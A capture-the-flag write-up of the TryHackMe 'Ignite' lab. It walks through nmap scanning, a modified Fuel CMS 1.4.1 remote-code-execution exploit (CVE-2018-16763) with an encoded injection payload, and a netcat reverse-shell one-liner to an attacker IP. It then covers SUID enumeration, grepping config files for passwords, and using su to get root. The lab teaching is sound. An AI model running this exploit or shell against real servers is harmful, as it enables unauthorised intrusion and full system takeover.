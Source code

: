 # Ignite

**Date:** 12, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/ignite) to go to the TryHackMe room.


## Enumeration

### Nmap 

```bash
$ nmap 10.10.162.181
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 14:12 IST
Nmap scan report for 10.10.162.181
Host is up (0.16s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 9.86 seconds
```

### Fuel CMS

![Fuel CMS](Images/Ignite-fuel.png)

---

## Initial Access

### Searchsploit

- Use `searchsploit` to look for `Fuel CMS` vulnerabilities.
- We have `RCE` in the specified version

```bash
$ searchsploit fuel
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
AMD Fuel Service - 'Fuel.service' Unquote Service Path                                                         | windows/local/49535.txt
Franklin Fueling TS-550 evo 2.0.0.6833 - Multiple Vulnerabilities                                              | hardware/webapps/31180.txt
fuel CMS 1.4.1 - Remote Code Execution (1)                                                                     | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                                     | php/webapps/49487.rb
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                                           | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                               | php/webapps/48778.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Reverse Shell

- Download the `RCE` exploit `47138.py`
- Make few modifications as needed. Modified code:

```py
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://10.10.162.181/"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        # proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

- Run the exploit and gain a reverse shell:

```bash
$ python 47138.py 
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.7.91 1234 >/tmp/f
```

- Reverse shell on attacker machine:

```bash
root@kali:~/Desktop/CTF/TryHackMe/ignite# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.162.181] 51214
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 1234

root@kali:~/Desktop/CTF/TryHackMe/ignite# stty raw -echo;fg
nc -lvnp 1234

www-data@ubuntu:/var/www/html$ 
```


## User.txt

- Go to the home folder of `www-data` to get the user flag:

```bash
www-data@ubuntu:/home$ cd www-data/

www-data@ubuntu:/home/www-data$ ls
flag.txt

www-data@ubuntu:/home/www-data$ cat flag.txt 
REDACTED
```

---

## Root.txt

### Check SUID binaries

```bash
www-data@ubuntu:/$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null

-rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /usr/sbin/pppd
-rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-xr-x 1 root root 18664 Mar 17  2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwxr-sr-x 1 root mail 14336 Jul 25  2018 /usr/lib/evolution/camel-lock-helper-1.2
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 10584 Oct 25  2018 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 22768 May 16  2017 /usr/bin/expiry
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab
-rwxr-sr-x 1 root tty 27368 May 16  2018 /usr/bin/wall
-rwxr-sr-x 1 root mlocate 39520 Nov 17  2014 /usr/bin/mlocate
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwxr-sr-x 1 root ssh 358624 Jan 31  2019 /usr/bin/ssh-agent
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwxr-sr-x 1 root shadow 62336 May 16  2017 /usr/bin/chage
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
```

- I checked the `wall` and `expiry` binary. But I couldn't find anything to exploit!

### Locating the Password

- Use `grep` command to look for `password` inside the file system.
- Options:
    - `P` - perl-regex engine
    - `r` - recursive search
    - `z` - treat the file as one huge string. 
    - `o` - Print only the matching portion

```bash
www-data@ubuntu:/$ grep -zoPr  '.*root.*\n.*password.*' /var/www/html/fuel/
/var/www/html/fuel/application/config/database.php:     'username' => 'root',
        'password' => 'REDACTED',

www-data@ubuntu:/$ cat /var/www/html/fuel/application/config/database.php
    [..snip..]
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'REDACTED',
    [..snip..]
```

### Privilege Escalation

- Use the credentials found to switch to `root` user:

```bash
www-data@ubuntu:/$ su               
Password: 
root@ubuntu:/# whoami
root
root@ubuntu:/# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
b9bbcb33e11b80be759c4e844862482d 
```
 
 ---